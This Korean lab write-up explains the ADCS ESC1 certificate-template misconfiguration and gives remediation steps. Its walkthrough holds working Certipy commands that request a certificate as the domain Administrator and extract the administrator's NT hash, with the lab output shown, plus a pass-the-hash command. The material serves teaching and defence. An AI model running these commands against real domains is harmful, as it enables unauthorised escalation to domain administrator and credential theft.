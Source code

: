 # ESC1

> 이 페이지와 하위 페이지들에 있는 ADCS와 관련된 개념 및 공격 방식은 모두 SpecterOps 사의 Will Schroeder 분과 Lee Christensen 분이 2021년에 작성하신 "[Ceritfied Pre-Owned](https://www.specterops.io/assets/resources/Certified\_Pre-Owned.pdf)" 라는 백서를 기반으로 만들어졌습니다. 더 자세하게 알아보고 싶으신 분들은 레퍼런스 섹션의 백서를 참고해주시기 바랍니다.

### 개념&#x20;

ADCS의 인증서 양식에 `CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT` 라는  설정이  존재한다. 이 설정이 되어있는 취약  인증서 양식은 공격자 인증서 서명 요청을 보낼 때 자신이 원하는 유저를 주체로 특정해 보낼 수 있다. 예를 들자면,&#x20;

1. Choi -> CA: 저 인증서 서명 요청 드립니다. 근데 SAN (Subject Alternative Name) 란에는는 choi가 아니라 `Administrator@choi.local` 이라는 도메인 관리자로 해주세요.&#x20;
2. CA -> Choi: 네, 인증서 발급하겠습니다. 요청대로 SAN에는 도메인 관리자 유저 이름을 넣어서 발급해드릴게요.&#x20;
3. Choi: 감사합니다. - 일반 도메인 유저에서 도메인 관리자로 권한 상승 성공.&#x20;

어이가 없을 정도로 간단하고 위험한 설정이지만, 실제로 존재하는 설정이다.&#x20;

### 전제 조건&#x20;

1. `CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT` 설정 활성화&#x20;
2. Manager Approval 설정 비활성화&#x20;
3. Authorized Signature 설정 비활성화&#x20;
4. 해당 인증서 양식에 공격자의 유저가 인증서 발급 권한 존재 &#x20;
5. CA 서버가 공격자의 유저에게 인증서 발급 권한을 허용

### 실습&#x20;

#### ESC 1 정보 수집&#x20;

Certipy 를 통해 정보 수집을 한 뒤, ESC1 에서 취약한 인증서 양식을 찾았다. Certipy 의 출력을 살펴본다.&#x20;

```
Certificate Templates
  0
    Template Name                       : macUsers
    Certificate Authorities             : choi-DC01-CA
    [ ... ]
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    [ ... ]
    Extended Key Usage                  : Encrypting File System
                                          Secure Email
                                          Client Authentication
    Authorized Signatures Required      : 0
    Requires Manager Approval           : False
    [ ... ]
    Permissions
      Enrollment Permissions
        Enrollment Rights               : CHOI.LOCAL\Domain Admins
                                          CHOI.LOCAL\Domain Users
                                          CHOI.LOCAL\Enterprise Admins
    [ ... ]
    [!] Vulnerabilities
      ESC1                              : 'CHOI.LOCAL\\Domain Users' can enroll, enrollee supplies subject and template allows client authentication
```

많은 정보가 있지만, ESC1 을 사용하는데 있어 필요한 전제 조건들 4개를 살펴보자.&#x20;

1. `Enrollee Supplies Subject: True - CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT`  설정이 활성화 되어 있다.&#x20;
2. Requires Manager Approval: False  - 비활성화 되어 있다.&#x20;
3. Authorized Signature: 0  - 비활성화 되어 있다.&#x20;
4. Enrollment Rights - `Choi.local\Domain Users` - CA 서버와 인증서 양식에 공격자의 유저 발급 권한 존재. 공격자 뿐만 아니라 도메인 유저 전체가 이 인증서 양식을 통해 도메인 관리자 인증서를 발급 받을 수 있는 상태다.&#x20;

#### 공격&#x20;

1. Certipy 를 이용해 원하는 타겟 유저의 이름을 SAN 으로 지정해 인증서를 발급 받는다.&#x20;

```
$ certipy req -u <user> -p <pass> -ca <CA> -target <CA-FQDN> -template <취약한-양식-이름> -upn <타겟-유저> 

예) $ certipy req -u low@choi.local -p 'Password123!' -ca choi-DC01-CA -target dc01.choi.local -template macUsers -upn Administrator@choi.local -dns dc01.choi.local 
Certipy v4.0.0 - by Oliver Lyak (ly4k)

[*] Successfully requested certificate
[*] Got certificate with multiple identifications
    UPN: 'Administrator@choi.local'
    DNS Host Name: 'dc01.choi.local'
[*] Saved certificate and private key to 'administrator_dc01.pfx'
```

2\. 발급 받은 인증서는 유저 인증에 사용할 수 있다. 도메인 관리자의 NT 해시를 획득한다.&#x20;

```
$ certipy auth -pfx <#1의 인증서 파일 이름> -dc-ip <DC-IP> 

예) $ certipy auth -pfx administrator_dc01.pfx -dc-ip 192.168.40.150                         
Certipy v4.0.0 - by Oliver Lyak (ly4k)

[*] Found multiple identifications in certificate
[*] Please select one:
    [0] UPN: 'Administrator@choi.local'
    [1] DNS Host Name: 'dc01.choi.local'
> 0
[*] Using principal: administrator@choi.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@choi.local': aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe
```

3\. 도메인 관리자의 NT 해시를 이용해 인증한다.&#x20;

```
$ cme smb <DC-IP> -u Administrator -H <NThash> -d <domain>
```



### 대응 방안&#x20;

* ESC1의 근본적인 문제는 특정 인증서 양식에 `CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT` 플래그가 활성화 되어 있다는 것이다. 이를 해결한다.&#x20;
* 프로덕션 서버에서는 충분한 테스트를 거친 뒤 설정을 해제한다.&#x20;
* CA 서버 > `certtmpl.msc` > 인증서 양식 오른쪽 클릭 > Properties > `Subject Name` 탭 > Supply in Request 설정 해제&#x20;
* `Supply in Request` 가 꼭 필요하다면 Properties > Issuance Requirements > CA Certificate Manager Approval 을 설정해 인증서 관리자 계정이 허락을 해야 인증서가 발급되도록 바꾼다.&#x20;

<figure><img src="../../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/esc1.png" alt=""><figcaption><p>CT-FLAG-ENROLLEE-SUPPLIES-SUBJECT 를 비활성화 한다</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (20).png" alt=""><figcaption><p>Certificate Manager Approval 을 활성화 한다</p></figcaption></figure>





### 레퍼런스&#x20;



{% embed url="https://www.specterops.io/assets/resources/Certified_Pre-Owned.pdf" %}

{% embed url="https://github.com/ly4k/Certipy" %}
